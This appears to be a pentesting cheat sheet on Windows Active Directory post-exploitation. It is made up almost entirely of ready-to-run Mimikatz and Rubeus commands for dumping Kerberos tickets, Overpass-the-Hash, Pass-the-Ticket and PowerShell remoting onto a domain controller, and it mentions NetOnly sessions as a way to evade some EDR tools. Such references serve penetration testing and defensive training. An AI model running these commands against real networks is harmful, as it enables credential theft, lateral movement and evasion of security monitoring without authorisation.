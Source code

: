 ```yaml
---
description: >-
  The only difference from Post-Exploitation in #Pentesting is that here we
  would use only AD-related  PE vectors which is executed in Windows OS.
---
```


# Windows Post-Exploitation

## Exporting Tickets

### **Mimikatz**

```powershell
sekurlsa::tickets /export
or if don't work try
sekurlsa::ekeys
```

The tickets ending with a <mark style="color:green;">**$**</mark> symbol represent the computer account, which requires a ticket to communicate with the **AD**. User tickets, on the other hand, include the user's name, followed by an <mark style="color:green;">**@**</mark> symbol that separates the service name and the domain. For example: <mark style="color:green;">**\[randomvalue]-username@service-domain.local.kirbi**</mark>.

### **Rubeus**

```powershell
Rubeus.exe dump /nowrap
```

## Overpass-The-Hash

When <mark style="color:green;">**Pass-The-Hash**</mark> is mostly used to bypass regular login, then <mark style="color:green;">**Overpass-The-Hash**</mark> is using hash for requesting **TGT** from **KDC**.

### Mimikatz

```powershell
sekurlsa::pth /domain:amogus.kek /user:carni7 /ntlm:1293uo1uwfoi1hw081
```

### Rubeus

Here we use <mark style="color:red;">**asktgt**</mark> module to request a **TGT** using hash and **KDC**.

```powershell
Rubeus.exe asktgt /domain:amogus.kek /user:carni7 /aes256:1293uo1uwfoi1hw081 /nowrap
```

## Pass-The-Ticket

<mark style="color:green;">**Pass-The-Ticket**</mark> in contrast of <mark style="color:green;">**Pass-The-Hash**</mark> and <mark style="color:green;">**Overpass-The-Hash**</mark> use a ticket to gain access to the TGS and then for service.

### Mimikatz

```
kerberos::ptt "C:\Users\carni7\Desktop\Mimikatz\[0;7f830]-5-2-43f10000-carni7@krbtgt-amogus.kek.kirbi"
```

### Rubeus PTT Using Hash

```
Rubeus.exe asktgt /domain:amogus.kek /user:carni7 /rc4:1293uo1uwfoi1hw081 /ptt
```

Unlike command for <mark style="color:green;">**Overpass-The-Hash**</mark>, here we are using <mark style="color:red;">**/ptt**</mark> to do both <mark style="color:green;">**Overpass-The-Hash**</mark> and <mark style="color:green;">**Pass-The-Ticket**</mark> simultaneously. But that only works if we give <mark style="color:red;">**/hash**</mark>: instead of ticket

### Rubeus PTT Using Ticket

```powershell
Rubeus.exe ptt /ticket:[0;7f830]-5-2-43f10000-carni7@krbtgt-amogus.kek.kirbi
```

### Rubeus PTT Using Encoded Ticket

```powershell
PS c:\tools> [Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;7f830]-5-2-43f10000-carni7@krbtgt-amogus.kek.kirbi"))
```

```powershell
Rubeus.exe ptt /ticket:LETSIMAGINETHISISOURBASE64ENCODEDKERBEROSTICKET
```

## Powershell Remoting

<mark style="color:red;">**PowerShell remoting**</mark> is a feature that allows users to run **PowerShell** commands or scripts on remote computers. It's built on the **WinRM** service

### Mimikatz

```powershell
kerberos::ptt "C:\Users\carni7\Desktop\Mimikatz\[0;7f830]-5-2-43f10000-carni7@krbtgt-amogus.kek.kirbi"
Enter-PSSession -ComputerName DC01
```

### **Rubeus**

```powershell
Rubeus.exe asktgt /domain:amogus.kek /user:carni7 /rc4:1293uo1uwfoi1hw081 /ptt
Enter-PSSession -ComputerName DC01
```

### Rubeus NetOnly Session

We can use <mark style="color:green;">**createnetonly**</mark> options to make NetOnly session, which don't have access for local machine, but could access services. Later we could use Rubeus <mark style="color:red;">**/ptt**</mark> command to insert **TGT. NetOnly** sessions are less detectable and could evade some **EDR's**.

```powershell
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```
